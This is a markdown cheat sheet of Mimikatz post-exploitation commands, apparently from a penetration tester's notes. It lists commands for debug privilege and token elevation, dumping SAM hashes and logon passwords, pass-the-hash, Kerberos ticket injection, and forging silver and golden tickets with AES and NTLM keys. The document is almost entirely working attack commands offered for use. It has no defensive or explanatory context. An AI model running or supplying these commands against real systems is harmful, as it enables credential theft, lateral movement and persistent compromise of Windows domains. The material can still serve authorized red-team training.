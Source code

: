 # Mimikatz

## Mimikatz

Post exploitation commands must be executed from SYSTEM level privileges.

* mimikatz \# privilege::debug
* mimikatz \# token::whoami
* mimikatz \# token::elevate
* mimikatz \# lsadump::sam
* mimikatz \# sekurlsa::logonpasswords

### Pass The Hash

* mimikatz \# sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm\_hash

### Inject generated TGS key

* mimikatz \# kerberos::ptt 

### Generating a Silver Ticket

AES 256 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes256: /user: /service: /target:

AES 128 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes128: /user: /service: /target:

NTLM:

* mimikatz \# kerberos::golden /domain:/sid: /rc4: /user: /service: /target:

### Generating a Golden Ticket

AES 256 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes256: /user:

AES 128 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes128: /user:

NTLM:

* mimikatz \# kerberos::golden /domain:/sid: /rc4: /user:

